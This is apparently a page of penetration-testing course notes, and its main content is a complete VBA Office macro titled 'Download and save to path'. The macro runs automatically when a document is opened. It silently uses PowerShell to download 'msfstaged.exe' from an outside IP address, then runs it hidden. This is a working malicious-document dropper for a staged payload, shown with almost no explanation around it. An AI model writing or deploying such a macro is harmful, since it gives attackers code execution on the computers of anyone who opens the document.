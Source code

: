 - VB Command Reference: https://ss64.com/vb/
- JScript: https://learn.microsoft.com/en-us/dotnet/api/microsoft.jscript?view=netframework-4.8.1

### Download and save to path

```vba
Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub

Sub MyMacro()
    Dim str As String
    str = "powershell (New-Object System.Net.WebClient).DownloadFile('http://192.168.45.185/msfstaged.exe', 'msfstaged.exe')"
    Shell str, vbHide
    Dim pwd As String
    pwd = GetCurrentDirectory()
    Dim exePath As String
    exePath = pwd + "\msfstaged.exe"
    Wait (2)
    Shell exePath, vbHide

End Sub

Sub Wait(n As Long)
    Dim t As Date
    t = Now
    Do
        DoEvents
    Loop Until Now >= DateAdd("s", n, t)
End Sub

Function GetCurrentDirectory() As String
    Dim wsh As Object
    Dim cmd As String
    Dim exec As Object
    Dim output As String
    Dim cd As String
    
    Set wsh = CreateObject("WScript.Shell")
    cmd = "cmd.exe /c echo %cd%"
    Set exec = wsh.exec(cmd)
    output = exec.StdOut.ReadAll
    cd = Replace(output, vbCr, "")
    cd = Replace(cd, vbLf, "")
    
    GetCurrentDirectory = cd
    
    Set exec = Nothing
    Set wsh = Nothing
End Function

```
